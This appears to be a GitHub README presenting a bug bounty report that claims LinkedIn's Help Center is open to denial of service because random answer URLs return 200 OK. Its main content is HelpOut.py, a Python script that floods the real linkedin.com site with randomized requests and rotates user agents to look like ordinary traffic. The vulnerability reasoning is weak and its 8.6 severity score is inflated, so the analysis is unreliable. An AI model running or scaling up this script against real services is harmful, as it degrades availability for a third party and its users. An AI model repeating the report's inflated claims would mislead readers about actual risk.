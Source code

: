 # HelpOut
Ddos resources exhaustion for LinkedIn help center

Here's the updated report with the requested details:

---

### Bug Bounty Report

**Title:** Potential DoS Vulnerability in LinkedIn Help Center URLs Due to Improper URL Handling

**Report Date:** August 28, 2024

**Reporter:** Blu Corbel AKA DeadmanXXXII

**Program:** LinkedIn Bug Bounty Program

---

#### Summary:

I have discovered a potential Denial of Service (DoS) vulnerability in LinkedIn's Help Center URL handling mechanism. By altering the last 7 characters of certain Help Center URLs, the server consistently returns a status code of 200 OK for URLs that do not actually exist. This behavior can be exploited to perform a DoS attack by generating and requesting numerous random URLs, overwhelming LinkedIn's servers.

#### Impact:

The vulnerability allows an attacker to flood LinkedIn's servers with legitimate-looking requests that consume resources, potentially degrading service performance or leading to a full-scale outage. Such an attack could disrupt the availability of LinkedIn's Help Center and other related services.

#### CVSS Score:

- **CVSS Version:** 3.1
- **CVSS Vector:** AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H
- **Base Score:** 8.6 (High)

#### CWE ID:

- **CWE-400:** Uncontrolled Resource Consumption ('Resource Exhaustion')

---

#### Steps to Reproduce:

1. Start with the base LinkedIn Help Center URL: `https://www.linkedin.com/help/linkedin/answer/a1341680`
2. Modify the last 7 characters of the URL with any random digits or characters, for example: `https://www.linkedin.com/help/linkedin/answer/a1041689`.
3. Use `curl` or any HTTP client to make a request to the generated URL:
   ```bash
   curl -I https://www.linkedin.com/help/linkedin/answer/a1041689
   ```
4. Observe that the server consistently returns a `200 OK` status code along with valid content, even for URLs that do not exist.

#### Proof of Concept (PoC) Script: **HelpOut.py**

The following Python script, named **HelpOut.py**, demonstrates how an attacker might exploit this vulnerability by generating random URLs and sending requests with varying user agents.

```python
import requests
import random
import string
import time

# Base URL for LinkedIn Help Center
base_url = "https://www.linkedin.com/help/linkedin/answer/a"

# Random User Agents
user_agents = [
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0.3 Safari/605.1.15",
    "Mozilla/5.0 (Linux; Android 11; SM-G998B) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Mobile Safari/537.36",
    "Mozilla/5.0 (iPhone; CPU iPhone OS 15_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.2 Mobile/15E148 Safari/604.1"
]

def generate_random_url(base):
    # Generate a random 7-character alphanumeric string
    random_chars = ''.join(random.choices(string.ascii_lowercase + string.digits, k=7))
    return base + random_chars

def send_request(url):
    # Choose a random User Agent
    headers = {
        "User-Agent": random.choice(user_agents)
    }
    response = requests.head(url, headers=headers)
    print(f"Requested URL: {url} | Status Code: {response.status_code}")

# Generate and request random URLs
for _ in range(1000):  # Modify this number to increase/decrease the number of requests
    random_url = generate_random_url(base_url)
    send_request(random_url)
    time.sleep(0.1)  # Pause between requests to simulate more realistic traffic
```

---

#### Mitigation Recommendations:

1. **Implement Rate Limiting:** Enforce rate limits on incoming requests to prevent abuse by automated scripts and bots.
2. **Return Proper Error Codes:** Ensure that only valid resources return a `200 OK` status code. Non-existent or unauthorized resources should return appropriate error codes like `404 Not Found`.
3. **Request Throttling:** Apply throttling mechanisms on repetitive and identical requests to prevent resource exhaustion.
4. **Response Caching:** Implement caching mechanisms to avoid reprocessing identical requests, thus reducing the load on servers.

#### Business Impact:

If exploited, this vulnerability can cause severe service disruptions, affecting user access to LinkedIn Help Center resources and potentially leading to widespread dissatisfaction among users. Furthermore, the attack can compromise LinkedIn's reputation for reliability and security.

---

#### Additional Information:

- **LinkedIn Help Center URLs:** This issue appears to be specific to certain LinkedIn Help Center URLs. However, further investigation might reveal similar vulnerabilities in other areas of the platform.
- **Server Behavior:** The consistent `200 OK` response, regardless of the validity of the resource, suggests that the backend server may not be verifying the existence of the requested resource, leading to unnecessary processing.

---

Please review the findings and consider implementing the recommended mitigations to protect LinkedIn's infrastructure from potential abuse. I am happy to provide further clarification or assist with any testing as needed.

**Blu Corbel AKA DeadmanXXXII**

---

